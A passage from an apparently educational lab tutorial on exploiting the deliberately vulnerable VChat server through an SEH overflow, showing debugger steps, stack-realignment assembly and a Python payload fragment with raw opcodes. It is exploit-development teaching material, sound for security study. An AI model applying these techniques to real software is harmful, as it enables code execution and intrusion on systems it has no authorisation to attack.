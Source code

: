 				<img src="Images/I42.png" width=600>

		5. We can modify the exploit program to reflect [exploit9.py](./SourceCode/exploit9.py) and test the program as we have done previously. We do this to ensure the manually encoded instruction will be properly reconstructed and placed on the stack.

			https://github.com/DaintyJet/VChat_LTER/assets/60448620/3f147346-e329-45a7-9913-0cc559681e13

			1. Click on the black button highlighted below, enter in the address we decided in the previous step.

				<img src="Images/I16.png" width=600>

			2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`.

				<img src="Images/I26.png" width=600>

			3. Run [exploit9.py](./SourceCode/exploit9.py), and pass the exception to the VChat program.

				<img src="Images/I43.png" width=600>

5. After the jump in this instance, we arrived at the address `0x010BFF7D`, and our two short conditional jumps are at the address `0x010BFFCC`. This means we have 78 bytes of space to work with! We now need to perform a long jump to the start of the buffer!
	1. In my case, the address near the start of the buffer I have chosen to jump to is `0x010BF223`. We can determine the machine code used to achieve this by assembling it as shown below in Immunity Debugger. (Scroll to the start of the buffer where the first `A` is located to get an address).

		<img src="Images/I44.png" width=600>

	2. The decoder that we generate may perform operations on the stack so we want to make sure during those operations, we will not corrupt our shell code and if we generate an instruction to later place it on the stack using a `PUSH EAX` instruction we need to make sure the location we will write this to is accessible to our currently executing shell code. So we can simply realign the `ESP` value similar to how we did this in the [exploit7b.py](./SourceCode/exploit7b.py) code. We modify this so the `ESP` value is decremented, putting it in a better position which is unlikely to conflict with the currently executing shell code. This is because the stack will continue to grow down, while the shellcode that makes up the decode and encoded shellcode is located **above** the new `ESP` value.

	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x30        ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x30
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

	* This results in the code shown in [exploit10.py](./SourceCode/exploit10.py).
		```
		b'A' * (3506 - 79) +
		# Align stack for long jump
		b'\x54' +           # PUSH ESP
		b'\x58' +           # POP EAX
		b'\x2c\x30' +       # SUB AL,30
		b'\x50' +           # PUSH EAX
		b'\x5c' +           # POP ESP
		b'A' * (79 - 6) +   # Fill the rest of our buffer with A
		```
		* `b'A' * (3506 - 79)` We place the first series of `A`s so that our stack realignment is placed where the 127-byte short jump lands.
		* We inject the necessary instructions for the stack realignment.
		* `b'A' * (79 - 6)`: We place additional `A`s so the short conditional jumps are placed where the SEH handler jumps to.